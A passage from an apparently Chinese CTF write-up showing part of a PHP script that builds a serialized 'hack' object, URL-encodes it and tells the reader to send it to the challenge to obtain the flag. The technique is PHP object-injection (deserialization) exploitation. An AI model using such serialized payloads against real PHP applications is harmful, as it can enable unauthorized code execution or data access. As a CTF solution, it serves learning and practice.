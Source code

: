 ```php
    }
}
class get_flag
{
    public function flag()
    {
        echo "tql, 给师傅递flag:"."nwuctf{xxxxxxxxxxxxxxx}";
    }
}
$a = new hack;
echo urlencode(serialize($a))."<br />";
?>
```

![20](/assets/nwuctf/2/20.png)

复制生成的序列化后的对象，然后发送。

![21](/assets/nwuctf/2/21.png)
